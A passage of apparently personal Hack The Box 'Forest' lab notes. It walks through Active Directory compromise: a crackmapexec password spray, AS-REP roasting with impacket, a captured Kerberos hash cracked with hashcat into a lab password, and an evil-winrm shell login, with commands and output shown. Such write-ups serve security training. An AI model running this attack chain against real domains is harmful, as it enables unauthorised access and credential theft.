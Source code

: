 ```
user:[Administrator] rid:[0x1f4]
user:[krbtgt] rid:[0x1f6]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
copy & paste to user.txt and format the names using below command
```
cat user.txt| cut -d"[" -f2 |cut -d"]" -f1
```
3: try to crack username/username -- failed
```
crackmapexec smb 10.10.10.161 -u user.txt -p user.txt
```
4: try usernames on kerberos -> to find kerberoseable users -- saw krb5asrep for svc-alfresco
```
for user in $(cat user.txt);do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user};done
```
```
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c874f2496f524e0751d36a7a53b213b0$278b07e1494aabf4197f3967fdf6b5a383134823e567dcbbcf9a4fd5cf4aa34df5fc183aee856f1ee8957f9c239953b0314dee8bc00cf074bda5ef5454200d906ba4800e43c25d80c153b57b37f699a4079d1d799569b10c886147133148844b284e3594649a6b7eccb6be4cf4bd0c6b92ca5f2711fbc17531d7931fb64a432982a333b0128ef6ed0053360cad923dc6a54b663b3d1feee0c83f929f256a0581f8611ee376388446f577b8cf0ca1118b840a2cc2832cfb9a6c011a8264a91b72c848e2f92b14ca18349c64e3405cc9140ca2cb870072a96f981d64b8d9ecf3b8
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

```
5: save the hash, save as krb5asrep.svc-alfresco
```
vi krb5asrep.svc-alfresco
```
6: crack the krb5asrep using hashcat -> name/pwd: svc-alfresco/s3rvice
```
hashcat -m 18200 krb5asrep.svc-alfresco /usr/share/wordlists/rockyou.txt --force
```
```
$krb5asrep$23$svc-alfresco@HTB:c874f2496f524e0751d36a7a53b213b0$278b07e1494aabf4197f3967fdf6b5a383134823e567dcbbcf9a4fd5cf4aa34df5fc183aee856f1ee8957f9c239953b0314dee8bc00cf074bda5ef5454200d906ba4800e43c25d80c153b57b37f699a4079d1d799569b10c886147133148844b284e3594649a6b7eccb6be4cf4bd0c6b92ca5f2711fbc17531d7931fb64a432982a333b0128ef6ed0053360cad923dc6a54b663b3d1feee0c83f929f256a0581f8611ee376388446f577b8cf0ca1118b840a2cc2832cfb9a6c011a8264a91b72c848e2f92b14ca18349c64e3405cc9140ca2cb870072a96f981d64b8d9ecf3b8:s3rvice

```
7: login using winrm [ saw remote port 5985 which by default is wondows remote management port]
```
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
```
┌──(kali㉿kali)-[~/Desktop/htb_prep/forest]
└─$ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 

```